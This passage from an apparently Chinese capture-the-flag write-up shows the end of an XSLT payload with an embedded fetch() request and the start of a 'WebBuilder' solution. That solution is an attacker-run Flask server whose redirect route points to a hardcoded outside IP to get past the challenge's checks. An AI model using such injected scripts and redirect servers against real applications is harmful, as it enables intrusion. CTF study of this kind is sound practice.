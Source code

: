 ```javascript
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body: formData
})
  .then(response => {
    if (!response.ok) {
      throw new Error('Network response was not ok');
    }
    return response.json();
  })
  .then(data => {
    console.log(data);
  })
  .catch(error => {
    console.error('Error:', error);
  });


      </script>
    </body>
  </xsl:template>
</xsl:stylesheet>
```



### WebBuilder

一系列需要绕过。直接在服务器起一个flask

```python
from flask import Flask, request, jsonify

app = Flask(__name__)

@app.route('/test', methods=['GET'])
def test():
    name = request.args.get('name')

    # 检查是否提供了 name 参数
    if not name:
        return jsonify(error='Name parameter is missing.'), 400

    # 构建返回的 JSON 数据
    responseData = {
        'len': 15,
        'code': 200  # 获取当前时间戳
    }

    # 设置响应头的 Content-Type 为 application/json
    return jsonify(responseData)

@app.route('/redirect', methods=['GET'])
def redirect_route():
    # 返回状态码为 302 的响应
    return jsonify(), 302, {'Location': 'http://47.96.41.103:3000/success'}

@app.route('/success', methods=['GET'])
def success_route():
    # Additional logic for /success route if needed
    return 'Success Route'

# 新加的 /js 路由
@app.route('/js', methods=['GET'])
def js_route():
```